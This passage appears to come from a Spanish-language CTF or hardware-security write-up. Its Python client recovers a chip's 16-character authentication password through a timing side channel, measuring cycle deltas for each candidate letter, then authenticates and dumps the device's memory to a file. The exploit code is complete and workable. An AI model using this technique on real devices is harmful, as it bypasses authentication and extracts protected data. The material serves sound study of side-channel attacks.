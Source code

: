 ```py
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    await send_raw(ws, encode_packet(COMMANDS.COMM_INIT))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    freq = (8_000_000).to_bytes(4, 'little')
    await send_raw(ws, encode_packet(COMMANDS.SET_CHIP_FREQ, freq))
    resp, _ = await recv_pkt(ws)
    assert resp['status'] == RESPONSES.ACK

    known = b''
    while len(known) < 16:
        last_c = _
        count = {}
        for l in reversed(string.ascii_uppercase):
            pwd = known+l.encode() + b'A'*(15-len(known))
            await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, pwd))
            resp, _ = await recv_pkt(ws)
            print(f"[/] {l} : delta = {_-last_c} cycles")
            count[l] = _-last_c
            last_c = _
        max_char = max(count, key=count.get)
        print(f"[*] max char: {max_char} ({count[max_char]} cycles)")
        known += max_char.encode()
        print(f"[*] known: {known.decode()}")
    await send_raw(ws, encode_packet(COMMANDS.ID_AUTHENTICATION, known))
    resp, _ = await recv_pkt(ws)
    print(f"[*] ID_AUTHENTICATION: {resp['status']}")

    full_dump, fail_addr, fail_status = await dump_until_fail(ws)
    print(f"Stopped at {hex(fail_addr)} with status {fail_status.name}")
    print(f"Total bytes read: {len(full_dump)}")

    with open('dump.bin', 'wb') as f:
        f.write(full_dump)
    print(f"[*] Dump saved to dump.bin")

if __name__ == '__main__':
    asyncio.run(main())
```

Además de `client_mod.py` tenemos que realizar un script de lógica de lectura de la información. Para ello el siguiente script se encarga de sanitizar la lectura.

```py
import struct
from enum import IntEnum


class COMMANDS(IntEnum):
    UNKNOWN = 0x00
    COMM_INIT = 0x03
    SET_CHIP_FREQ = 0x05
    ID_AUTHENTICATION = 0x34
    READ = 0x69


class RESPONSES(IntEnum):
    ACK = 0x50
    INVALID_COMMAND = 0x80
    FLOW_ERROR = 0x81
    UNAUTHORIZED = 0x82
```